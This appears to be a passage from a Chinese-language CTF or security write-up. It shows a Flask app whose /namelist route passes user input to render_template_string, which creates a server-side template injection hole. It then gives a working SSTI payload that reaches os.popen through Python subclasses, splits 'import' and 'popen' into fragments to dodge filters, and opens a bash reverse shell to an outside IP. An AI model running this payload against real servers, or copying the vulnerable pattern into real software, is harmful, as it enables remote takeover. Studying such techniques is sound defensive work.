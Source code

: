 ```python
    border-radius: 25px;
    cursor: pointer;
  }

  .container {
    max-width: 300px;
    margin: auto;
    text-align: center;
  }

</style>
</head>
<body>
  
<div class="container">
  <form action="/namelist" method="get">
    <input type="text" class="pretty-input" name="name" placeholder="Enter your name...">
    <input type="submit" class="submit-button" value="Submit">
  </form>
</div>


</body>
</html>
'''
  
@app.route('/')
def pretty_input():
    return render_template_string(html_template)


@app.route('/namelist', methods=['GET'])
def name_list():
    name = request.args.get('name')  
    template = '<h1>Hi, %s.</h1>' % name
    rendered_string =  render_template_string(template)
    if rendered_string:
        return 'Success Write your name to database'
    else:
        return 'Error'


if __name__ == '__main__':
    app.run(port=8080)
```
- 由 `render_template_string` 函数得，接受传参后 flask 会对其进行渲染。
- 因此，此处可以进行模板注入。    
Payload：
```TEXT
/namelist?name={{[].__class__.__base__.__subclasses__()[189].__init__.__globals__[%27__builtins__%27][%27__imp%27+%27ort__%27](%27os%27).__dict__[%27pop%27+%27en%27](%27bash%20-c%20"bash%20-i%20>%26%20%2Fdev%2Ftcp%2F47.115.148.66%2F1234%200>%261"%27).read()}}
```
